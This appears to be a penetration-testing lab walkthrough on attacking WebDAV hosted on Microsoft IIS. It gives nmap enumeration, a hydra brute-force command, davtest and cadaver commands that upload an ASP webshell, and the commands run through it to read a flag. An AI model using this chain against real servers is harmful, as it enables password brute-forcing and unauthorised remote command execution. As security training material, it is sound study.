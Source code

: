Microsoft IIS
	- IIS (Internet Information Services) is a proprietary extensible web server software developed by Microsoft for use with the Windows NT family.
	- It can be used to host websites/web apps and provides administrators with a robust GUI for managing websites.
	- IIS can be used to host both static and dynamic web pages developed in ASP.NET and PHP.
	- Typically configured to run on ports 80/443.
	- Supported executable file extensions: `.asp`, `.aspx`, `.config`, `.php`

WebDAV
	- WebDAV (Web-based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers.
	- WebDAV essentially enables a web server to function as a file server for collaborative authoring.
	- WebDAV runs on top Microsoft IIS on ports 80/443.
	- In order to connect to a WebDAV server, you will need to provide legitimate credentials. This is because WebDAV implements authentication in the form of a username and password.

WebDAV Exploitation
	- The first step of the exploitation process would involve identifying whether WebDAV has been configured to run on the IIS web server.
	- The default directory where `webdav` is hosted is `/webdav/`.
	- We can perform a brute-force attack on the WebDAV server in order to identify legitimate credentials that we can use for authentication.
	- After obtaining legitimate credentials, we can authenticate with the WebDAV server and upload a malicious .asp payload that can be used to execute arbitrary commands or obtain a reverse shell on the target.

Tools used for WebDAV Exploitation
	- davtest
		- davtest is used to scan, authenticate and exploit a WebDAV server.
		- Pre-installed on most offensive penetration testing distributions like Kali and Parrot OS.
	- cadaver
		- cadaver supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking on WebDAV servers.
		- Pre-installed on most offensive penetration testing distributions like Kali and Parrot OS.

Practical Demonstration
	- `sudo nmap -sV -sC 10.2.17.124`
	- `sudo nmap -sV -p 80 --script=http-enum 10.2.17.124`
	- The 401 Unauthorized result for `/webdav/` depicted in the Nmap Script scan signifies that authentication is enabled for the `webdav` service hosted on the web server.
	- We can use the web browser to verify that `webdav` is hosted on the web server by navigating to the `/webdav/` directory.
	- Using hydra to perform brute-force attacks:
		- `hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.17.124 http-get /webdav/`
	- The username and password have been provided in the lab to prevent us from spending time on performing a bruteforce attack, the username is `bob` and the password is `password_123321`.
	- `davtest`
	- `davtest -url http://10.2.17.124/webdav`
	- `davtest -auth bob:password_123321 -url http://10.2.17.124/webdav`
	- davtest here checks for a connection, and permissions for: folder creation, upload (file formats), and execution (file formats).
	- `cadaver --help`
	- `cadaver http://10.2.17.124/webdav`
		- `bob`
		- `password_123321`
		- `ls`
		- `ls -a /usr/share/webshells/asp`
		- `put /usr/share/webshells/asp/webshell.asp`
	 - The web-shell we used provides us with command execution on the server when the file is executed through a browser.
		- `whoami`
		- `ipconfig`
		- `dir C:\`
		- `type C:\flag.txt`